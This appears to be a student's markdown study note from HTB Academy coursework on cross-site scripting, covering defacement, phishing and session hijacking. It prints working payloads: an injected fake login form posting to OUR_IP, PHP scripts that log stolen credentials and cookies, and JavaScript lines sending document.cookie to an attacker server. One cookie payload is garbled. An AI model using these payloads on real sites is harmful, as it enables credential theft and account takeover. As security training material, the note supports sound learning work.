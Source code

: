 # XSS Attacks

Some common attacks via XSS are:
- Defacing
- Phishing
- Session Hijacking

## Defacing

Means changing the look of the website for anyone who visits it.

**Elements**
There are four elements that are usually used to change the main look of a we page:
- Background Color: `document.body.style.background`
- Background: `document.body.background`
- Page Title: `document.title`
- Page Text: `DOM.innerHTML`

**Examples**

*Changing the background color:*
```html
<script>document.body.style.background = "#141d2b"</script>
```

*Changing the background:*
```html
<script>document.body.background = "https://www.iamge.url/path/to/image"</script>
```

*Changing the webpage title:*
```html
<script>document.title = "Hacked"</script>
```

*Changing the body:*
```js
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

Adding a more complete html:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

## Phishing

Phishing via XSS means utilizing legitimate-looking information to trick the victims to send their information to the attacker.

So, a common method is injecting fake login forms that send the login details to the attacker's server.

To do this attack, first find an XSS payload that successfully executes JS code on the page.

After identifying it we can proceed with the attack, by injecting HTML code that displays a login form, which should send login information to a server that we are listening on.

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Then, prepare a XSS code and test it on the vulnerable form. `document.write()` can be used to write HTML code to the vulnerable page, and use it in the XSS payload. After minifying it should look like this:

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Then to start a listening server, it can be done via different methods, and one of them is using `nc` tool:

```sh
sudo nc -lvnp 80
```

After the victim provides the credentials, it will get an `Unable to connect`, which raises suspicions, so we can use a PHP script that logs the credentials from the request and then returns the victim to the original page.

Create a file `index.php` and save it in some directory like `/tmp/tmpserver/`.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now in the same directory start a PHP listening server:

```php
sudo php -S 0.0.0.0:80
```

## Session Hijacking

Cookies are used to maintain a user's session throughout different browsing sessions. 

So, if the attacker gets the cookie, they may be able to login without knowing the credentials.

This usually happens when an attacker is able to execute JS code on the victim's browser, then collecting cookies and sending them to the attacker's server.

### XSS Dection

This happens when the vulnerbaility is triggered on a page taht we don't have access to.

It usually happens with forms only accessible by some users (e.g. Admins), and some examples are:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

**Example**
We visit a page that has a login and registration form.

We want to register, and put there a *username*.

Then after clicking on *Register* I receive the following:

```sh
Thank you for registering.
An Admin will review your registration request.
```

So, this means we don't get our input reflected, and we can't see the `alerts` that we send, as we don't have access to the *Admin panel*.

In this case we will use a **JS payload that sends an HTTP request back to our server**.

But this raises two issues:
- Which field is vulnerable?
- Which payload to use?

We can solve them by **Loading a Remote Script**. Well, not exactly, but by using the same methodology.

For example, in the form of registration there are the following fields `username`, `email`, and we want to try which is vulnerable.

So, we start a server to listen to, and then we try to load some scripts that don't exist, but that have the name of the field:

```sh
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

### Session Hijacking

After we find a working payload then we can exploit it and perform Session Hijacking attack.

For the attack to be successful it requires JS payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

Some JS payloads:

```js
document.location='http://server/index.php?c='=document.cookie;
new Image().src='http://server/index.php?c='+document.cookie;
```

The first one navigates to our cookie grabber PHP page, which can look suspicious.

The second one simply adds an image to the page, which is not very malicious looking.

Write them on a JS file, and change the URL in the XSS payload found earlier.

Sometimes there are many cookies, and we don't know which cookie value belongs to which cookie header, and in htis case we write a PHP script to split them with a new line and write them to a file, so if multiple victims trigger the XSS exploit, we get all of them ordered in a file.

Save the following script as `index.php`:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Once the victim visits the vulnerable page and views the payload, we will get two requests on our server, one for `script.js` which makes another request with the cookie value:

```sh
[200]: /script.js
[200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Then to use this cookie we press `Shift F9` in Firefox go to `Storage` tab and click on the `+` button and put our cookie.

